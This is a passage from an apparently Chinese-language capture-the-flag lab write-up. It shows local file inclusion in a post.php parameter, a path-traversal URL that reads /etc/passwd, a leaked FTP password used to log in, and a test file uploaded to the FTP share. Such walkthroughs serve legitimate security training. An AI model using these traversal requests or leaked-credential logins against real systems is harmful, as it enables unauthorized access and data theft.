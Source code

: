 /flag1.txt是flag，/secret_file_do_not_read.txt无权访问

## LFI

我们在主页上随便点击一个文章，发现url不对劲：

    http://10.10.109.194/post.php?post=striped.php

估计是本地文件包含

尝试在这里访问刚刚无权访问的/secret_file_do_not_read.txt：

    http://10.10.109.194/post.php?post=secret_file_do_not_read.txt

成功越权访问：

    Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:giveme*****777

拿着这组凭据去登录ftp

    ┌──(root🐦kali)-[/home/sugobet]
    └─# ftp ftpuser@10.10.109.194  
    Connected to 10.10.109.194.
    220 (vsFTPd 3.0.3)
    331 Please specify the password.
    Password: 
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    229 Entering Extended Passive Mode (|||41610|)
    150 Here comes the directory listing.
    drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
    -rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt

files文件夹下都没有，但是我发现files的所有者uid是1001

    drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files

我们通过刚刚的LFI查询/etc/passwd:

    http://10.10.109.194/post.php?post=../../../../../../../../../etc/passwd

    ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin

该账户无法登录ssh

回看刚刚那句话：

    Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will

尝试在ftp的/files/上传文件：

    ftp> put ./test1.txt 
    local: ./test1.txt remote: ./test1.txt
    229 Entering Extended Passive Mode (|||44865|)
    150 Ok to send data.
    100% |****************************************************************************************************************************************|  6560        2.66 MiB/s    00:00 ETA
    226 Transfer complete.
    6560 bytes sent in 00:00 (10.23 KiB/s)
